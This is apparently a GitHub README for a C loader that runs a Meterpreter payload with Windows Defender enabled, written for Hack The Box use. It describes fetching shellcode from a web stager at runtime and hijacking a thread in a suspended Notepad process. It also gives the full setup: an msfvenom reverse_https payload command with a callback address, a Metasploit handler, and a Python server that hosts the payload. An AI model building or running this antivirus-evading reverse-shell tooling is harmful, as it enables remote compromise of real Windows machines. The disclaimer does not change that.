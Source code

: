 # 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. The purpose of this porject is to have a Meterpreter payload execute with Defender on. This approach will bypass defender but some of the functionalilties in a Meterpreter payload will still be flagged. The purpose of this was to use this on harder Hack The Box machines that may have defender enabled. This spolution is a output of MALDEV Academy, it has been a great course and helped me build this up to this point. 

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fecthes the shell code at runtime and will avoid some common signtures by not storing the shell code on disk.
- I then create a suspended process "Notepad.exe" and then hijack a thread of that process to execute the shell code

## 📦 Features

- Built using **pure C** and Windows **Win32 API**
- Visual Studio Project 
- Clone the repo build, and follow the steps below

---

## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time then call back with a Meterpreter payload on a different port. Steps below are for setup


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for you local machine that is hosting metasploit
```

2. Open Metasploit


 ```bash
# in a different terminal setup metaploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. setup the python server

``` bash
# in the same directory as the paylaod and a differnt terminal as Metasploit run the following commands
python3 -m http.server 8080
``` 


### 🛠️ Build Instructions

1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/yourproject.git
    cd yourproject
    ```

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for you kali machine. Make sure the port used is the one hosting the python server

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

---

## 🧪 Usage

Example usage (from `main()`):

```c
int pid = 0;
ProcessEnumeration(L"notepad.exe", &dwPID, &hProcess, &pid);
printf("Found PID: %d\n", pid);
